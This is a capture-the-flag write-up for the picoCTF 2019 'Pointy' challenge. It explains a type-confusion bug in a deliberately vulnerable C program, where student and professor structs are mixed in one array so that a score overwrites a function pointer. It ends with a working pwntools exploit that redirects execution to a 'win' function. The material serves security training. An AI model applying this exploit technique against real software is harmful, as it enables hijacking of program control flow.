 # Pointy (picoCTF2019)



#### What does this program do?

#### It will make a loop which will:

#### 1. Create a new student struct and ask for student name

#### 2. Create a new professor struct and ask for professer name

#### 3. Search for the student who will give a professor some point

#### 4. Search for the professor who will be given some point by the student chosen at step 3

#### 5. Give the professor point

#### We could clearly see there are some bugs in vuln.c right in the first place

```C
int main (int argc, char **argv)
{
    while(ADRESSES_TAKEN<MAX_ADDRESSES-1){
        printf("Input the name of a student\n");
        struct Student* student = (struct Student*)malloc(sizeof(struct Student));
        ADDRESSES[ADRESSES_TAKEN]=student;	//1: student struct was saved in ADDRESSES array
        readLine(student->name);
        printf("Input the name of the favorite professor of a student \n");
        struct Professor* professor = (struct Professor*)malloc(sizeof(struct Professor));
        ADDRESSES[ADRESSES_TAKEN+1]=professor;  //2: professer struct was also saved in ADDRESSES array
        readLine(professor->name);
        student->scoreProfessor=&giveScoreToProfessor; //3: student->scoreProfessor is a function pointer point to giveScoreToProfessor
        ADRESSES_TAKEN+=2;
        printf("Input the name of the student that will give the score \n");
        char  nameStudent[NAME_SIZE];
        readLine(nameStudent);
        student=(struct Student*) retrieveStudent(nameStudent);
        printf("Input the name of the professor that will be scored \n");
        char nameProfessor[NAME_SIZE];
        readLine(nameProfessor);
        professor=(struct Professor*) retrieveProfessor(nameProfessor); //4: struct professor's change depends on retrieveProfessor function
        puts(professor->name);
        unsigned int value;
            printf("Input the score: \n");
            scanf("%u", &value);
        student->scoreProfessor(professor, value); //5: point will be given through function scoreProfessor
    }
    return 0;
}
```
#### We can now sense some buggy smell throught that 4 place

```C
struct Professor {
    char name[NAME_SIZE];
    int lastScore;
};

struct Student {
    char name[NAME_SIZE];
    void (*scoreProfessor)(struct Professor*, int);
};
```
#### The offset of Student->scoreProfessor is the same as Professor->lastScore

```C
void* retrieveProfessor(char * name ){
    for(int i=0; i<ADRESSES_TAKEN;i++){
        if( strncmp(((struct Student*)ADDRESSES[i])->name, name ,NAME_SIZE )==0){
            return ADDRESSES[i];
        }
    }
    puts("person not found... see you!");
    exit(0);
}
```
#### The struct student and professor are on the same array, but this `retrieveProfessor` doesnt check for name if the professor has the same name as the student, this is the critical bug!
#### So now if we input `A` as the student name, `A` as the professor name, `A` for the student that will give score (bypass the program check).
#### And finally `A` as the professor name, the `retrieveProfessor` will now try to search professor named `A` but the student named `A` is at the first index of the array, so the program will give the `professor`  struct variable the `student` struct, and then because the offset of `Student->scoreProfessor` is the same as `Professor->lastScore`, the program will change the function pointer `Student->scoreProfessor` to the number of point, this was performed in `giveScoreToProfessor` function of struct `student`.

```C
void giveScoreToProfessor(struct Professor* professor, int score){
    professor->lastScore=score; // professor->lastScore is actually student->scoreProfessor because the program chose the student struct as professor struct and professor->lastScore is the same offset as student->scoreProfessor
    printf("Score Given: %d \n", score);

}
```
And i got this final exploit:
```python
from pwn import *

io = process('./vuln')
elf = ELF('./vuln')

def givescore(student, teacher, StudentGiveScore, teacherBeingGivenScore, score):
        print(io.recv())
        io.sendline(student)
        print(io.recv())
        io.sendline(teacher)
        print(io.recv())
        io.sendline(StudentGiveScore)
        print(io.recv())
        io.sendline(teacherBeingGivenScore)
        print(io.recv())
        io.sendline(str(score))

givescore(b'A', b'A', b'A', b'A', elf.sym['win'])
givescore(b'lmao', b'bruh', b'A', b'bruh', 1)
print(io.recv())
```
